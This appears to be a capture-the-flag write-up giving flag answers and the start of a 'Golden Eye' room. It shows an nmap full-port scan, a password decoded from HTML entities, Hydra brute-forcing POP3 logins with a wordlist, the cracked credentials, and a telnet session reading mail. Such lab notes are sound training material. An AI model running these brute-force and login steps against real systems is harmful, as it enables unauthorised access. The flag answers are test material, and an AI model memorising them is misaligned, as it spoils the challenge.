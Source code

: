 Found at http://10.10.240.238:65524/robots.txt
convert the md5 hash to the flag
```
a18672860d0510e5ab6699730763b250

flag{1m_s3c0nd_fl4g}
```


```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```




--------------- 
## Golden Eye (Not Done)

#### Intro and Enumeration

Use nmap to scan the network for all ports. How many ports are open?
```
nmap -p- -T 4 -v 10.10.108.12

4
```

Who needs to make sure they update their default password?
```
boris
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```
Convert the Decimal code to Characters
```
InvincibleHack3r
```
Other user is called natalya


####  It's mail Time

If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?
```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt 10.10.108.12 -s 55007 pop3 
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt 10.10.108.12 -s 55007 pop3 

[55007][pop3] host: 10.10.108.12   login: boris   password: secret1!
[55007][pop3] host: 10.10.108.12   login: natalya   password: bird

```

Log into the pop3 server using the new found credentials of boris
```
telnet 10.10.108.12 55007

user boris
pass secret1! 

list 

retr 1 
retr 2 
retr 3 
```
Other user -> janus
